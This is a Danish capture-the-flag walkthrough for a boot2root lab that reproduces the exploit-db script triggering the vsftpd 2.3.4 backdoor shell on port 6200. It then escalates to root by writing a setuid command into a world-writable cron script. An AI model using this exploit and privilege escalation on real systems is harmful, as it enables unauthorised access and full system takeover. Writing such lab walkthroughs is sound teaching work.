


# Afsti afsted
Dette er mit writeup for Afsti afsted, en challenge som jeg havde til hensigt skulle være nem, men endnu engang i år kom jeg til at fejlvurdere hvad der er `nemt` og hver der nok er nærmere `medium-svært`. 

Det er ikke min hensigt at fucke med nogens opfattelse af hvad de kan, sorry for den dårlige sværhedsgrads-labeling :-(

(I dette writeup løser jeg opgaven fra en lokalt kørende container, derfor vil du se `localhost` i stedet for `afsti-afsted.hkn` på screenshots)

Ihvertfald er `Afsti Afsted` en `boot2root` challenge hvor hensigten er at udnytte en bagdør i `vsftpd 2.3.4` og privesc ved at skrive til et world writeable script som kører som root via `cron` hver minut.

Uanset hvilken opgave du laver, er der altid en god idé at starte med et nmap.

```bash
root@d993e6b1ec7c:/tmp# nmap 172.17.0.2
Starting Nmap 7.80 ( https://nmap.org ) at 2022-05-07 19:22 UTC
Nmap scan report for 172.17.0.2
Host is up (0.0000050s latency).
Not shown: 999 closed ports
PORT     STATE SERVICE
2100/tcp open  amiganetfs
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 13.05 seconds
```

Hvilket viser en eller anden port på `2100` åben, man kan ikke stole på at det er `amiganetfs` så lad os prøve at tjekke om vi kan finde ud af hvad det er:

```bash
root@d993e6b1ec7c:/tmp# nmap -sC -sV -p 2100 172.17.0.2
Starting Nmap 7.80 ( https://nmap.org ) at 2022-05-07 19:23 UTC
Nmap scan report for 172.17.0.2
Host is up (0.000031s latency).

PORT     STATE SERVICE VERSION
2100/tcp open  ftp     vsftpd 2.3.4
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    1 1000     1000         4096 May 04 18:41 pub
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 172.17.0.3
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.45 seconds
```

Ok sick nok, vi kan se at `vsftpd 2.3.4` kører. lad os lige prøve at hurtigt google den.





ok det virker som om der er en bagdør i den her version, hvis vi læser lidt på nr 2 link, så kan vi se hvad det går ud på. Scriptet fra exploit-db ser således ud.

```python

#!/usr/bin/python3   
                                                           
from telnetlib import Telnet 
import argparse
from signal import signal, SIGINT
from sys import exit

def handler(signal_received, frame):
    # Handle any cleanup here
    print('   [+]Exiting...')
    exit(0)

signal(SIGINT, handler)                           
parser=argparse.ArgumentParser()        
parser.add_argument("host", help="input the address of the vulnerable host", type=str)
args = parser.parse_args()       
host = args.host                        
portFTP = 21 #if necessary edit this line

user="USER nergal:)"
password="PASS pass"

tn=Telnet(host, portFTP)
tn.read_until(b"(vsFTPd 2.3.4)") #if necessary, edit this line
tn.write(user.encode('ascii') + b"\n")
tn.read_until(b"password.") #if necessary, edit this line
tn.write(password.encode('ascii') + b"\n")

tn2=Telnet(host, 6200)
print('Success, shell opened')
print('Send `exit` to quit shell')
tn2.interact()
```

Ok hvis vi læser det, så sender det bare strengen `nergal:)` som bruger og `pass` som password.

Dette åbner så en bagdør på port 6200 som vi bare kan forbinde til. Du ville kunne bruge scriptet fra ovenover hvis du ændrer porten fra `21` til `2100` 

Jeg valgte dog bare at gøre det manuelt


sry for at have sagt det her er nemt, det er min fejl :(


Som du kan se på ovenstående screenshot så forbinder jeg bare med ovenstående info, og så netcatter jeg til port 6200 og har så bruger på maskinen.

Nu kan man køre nogle privesc scripts, jeg kan godt lide linpeas https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS

Hvilket viser der er et script `/opt/cleanlogs.sh` som vi har `write access` til..

Det lyder som et script der kører automatisk, lad os prøve at skrive til det.

```
echo "chmod u+s /bin/bash" > /opt/cleanlogs.sh
```
fordi vi kan bruge gtfobins https://gtfobins.github.io/gtfobins/bash/

og så vente lidt tid.

....

...

og så skrive `/bin/bash -p`

og vi kan finde flaget

